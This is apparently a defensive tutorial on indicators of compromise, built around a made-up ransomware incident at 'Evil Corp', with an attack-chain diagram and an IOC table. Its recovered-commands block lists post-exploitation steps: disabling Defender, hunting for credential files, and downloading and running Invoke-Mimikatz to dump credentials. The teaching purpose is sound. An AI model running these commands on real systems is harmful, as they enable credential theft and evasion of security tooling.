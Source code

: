 For starters, let's look at where IOCs come from. To do this, I introduce:

### **Evil Corp**

Evil Corp was at some point the victim of a cyber attack. 
The attack was a ransomware attack, and the attackers used a phishing email to get in.
At some point, **Company X** was brought in to do incident response. Based on their investigation, the following attack chain emerged:

```mermaid
graph TD
A["'marketing@totallylegit'.com"] --> b['susan@evilcorp'.com]
A -.-> |contains| C[proposal.pdf]
C -.-> |contains| D[not_a_loader.exe]
I[C2-server 13.37.13.37]
D --> |downloads beacon| Be[beacon.exe]
D -..-> |downloads from| I
Be ----> |command and control traffic| I
I ----> |command and control traffic| Be
```

The team was also able to find some of the commands that were run on the infected systems.

```powershell
beacon.exe -c2 13.37.13.37
whoami /all
hostname
net users
net users /domain 
net groups
systeminfo 
$ExecutionContext.SessionState.LanguageMode
netstat -ano
Set-MpPreference -DisableRealTimeMonitoring $true	
Set-MpPreference -DisableIOAVProtection $true	
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
dir /s SAM
dir /s SYSTEM
dir /s Unattend.xml
$uri = "https://raw.githubusercontent.com/g4uss47/Invoke-Mimikatz/master/Invoke-Mimikatz.ps1"
$module = Invoke-RestMethod -Uri $uri
$creds = Invoke-MImikatz -DumpCreds
```

---

Now, we can map this attack chain to artifacts and list them in a table.

| Artifact | Type | Description |
|----------|------|-------------|
| 'marketing@totallylegit'.com | Email | Phishing email |
| proposal.pdf | File | Attachment in phishing email |
| not_a_loader.exe | File | Malware |
| beacon.exe | File | Malware/RAT |
| 13.37.13.37 | IP | C2 server |
| whoami /all | Command | Command to get user info |
| hostname | Command | Command to get hostname |
| net users | Command | Command to get local users |
| net users /domain | Command | Command to get domain users |